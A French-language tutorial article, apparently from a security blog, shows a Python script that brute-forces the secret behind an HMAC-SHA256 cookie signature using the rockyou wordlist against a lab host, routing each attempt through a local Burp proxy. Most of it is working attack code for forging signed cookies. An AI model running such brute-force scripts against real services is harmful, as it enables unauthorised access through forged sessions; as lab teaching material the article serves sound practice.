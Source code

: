 ```yaml
---
title: Burp proxy brute force using python
meta_title: ""
description: Petit article pour savoir intercepter toutes les requêtes dans burp provenant d'un brute-force d'une authentification Web. 
date: 2024-04-04T05:00:00Z
image: /images/burp_and_python.png
categories:
  - Méthodes
author: Tmax
tags:
  - Méthodes
  - Fiches
  - Burp
  - Python
  - Brute-force
draft: false
---
```


Le script d'exemple présenté ici a été utilisé pour intercepter chaque tentative d'un brute-force dans Burp. 
L'objectif était de générer une signature hmac_sha256 valide où la HMAC_SHA256 = {Secret + Cookie}. 

Il faut avant tout créer une session et effectuer une première requête à notre serveur : 

```python
BASEURL = "http://intranet.fsociety.hack:2600"

sess = requests.Session()
req = sess.get(f"{BASEURL}")

```

Le cookie est récupérer grâce à :

```python
cookies = sess.cookies.get_dict() # Récupère un dictionnaire de tous les cookies de la session en cours
cookie_name = list(cookies.keys())[0] # Récupère la première clef du dictionnaire cookie
cookie_value = cookies[cookie_name] # Récupère la valeure assosiée à la premiere clef du dictionnaire cookie
```

Maintenant, à partir d'une wordlist, il faut envoyer plusieurs tentatives au serveur afin de trouver le secret qui permettra de valider notre signature. 

Pour cela, il s'agit avant tout de déclarer notre proxy et le chemin vers notre wordlist 

```python
proxy = {

    'http': 'http://127.0.0.1:8888'
}

WORDLIST_PATH = '/usr/share/wordlists/rockyou.txt'
```

Puis, créer une boucle qui itère sur chaque élément de notre wordlist afin de réaliser notre brute force 

```python
with open(WORDLIST_PATH, 'r') as wordlist_file:
    for word in wordlist_file:
        word = word.strip()  # Supprimer les espaces et les sauts de ligne
        hmac_signature = generate_hmac_sha256(word, cookie_value) # utilisation d'une fonction custom generate_hmac_sha256()
        modified_cookie_value = f"{cookie_value}.{hmac_signature}"
        modified_cookie = {'name': cookie_name, 'value': modified_cookie_value}
        headers = {'Cookie': f"{modified_cookie['name']}={modified_cookie['value']}"} # Ajouter le cookie aux headers HTTP 
        response = sess.get(BASEURL, proxies=proxy, headers=headers) # Utiliser le proxy
```

L'élément le plus important ici est la récupération du trafic au sein de notre proxy, le création du reste du code vous appartient en fonction du cas que vous rencontrerez : 

```python
response = sess.get(BASEURL, proxies=proxy, headers=headers)
```

Voici le code complet : 

```python
import requests
import re
import hmac
import hashlib
import base64

def generate_hmac_sha256(key, message):
    key_bytes = bytes(key, 'utf-8') if isinstance(key, str) else key
    message_bytes = bytes(message, 'utf-8') if isinstance(message, str) else message
    hmac_sha256 = hmac.new(key_bytes, message_bytes, hashlib.sha256).digest()
    hmac_sha256_base64 = base64.b64encode(hmac_sha256).decode('utf-8')
    return hmac_sha256_base64

def send_request_with_hmac(url, proxies, hmac_signature, cookies):
    headers = {'Cookie': f"{cookies['name']}={cookies['value']}"}
    params = {'hmac_signature': hmac_signature}
    response = requests.get(url, proxies=proxies, headers=headers, params=params)

BASEURL = "http://intranet.fsociety.hack:2600"

proxy = {

    'http': 'http://127.0.0.1:8888'
}

WORDLIST_PATH = '/usr/share/wordlists/rockyou.txt'


sess = requests.Session()
req = sess.get(f"{BASEURL}")
cookies = sess.cookies.get_dict()

cookie_name = list(cookies.keys())[0]
cookie_value = cookies[cookie_name]
cookie = {'name': cookie_name, 'value': cookie_value}

with open(WORDLIST_PATH, 'r') as wordlist_file:
    for word in wordlist_file:
        word = word.strip()  # Supprimer les espaces et les sauts de ligne
        hmac_signature = generate_hmac_sha256(word, cookie_value)
        modified_cookie_value = f"{cookie_value}.{hmac_signature}"
        modified_cookie = {'name': cookie_name, 'value': modified_cookie_value}
        headers = {'Cookie': f"{modified_cookie['name']}={modified_cookie['value']}"}
        response = sess.get(BASEURL, proxies=proxy, headers=headers)
```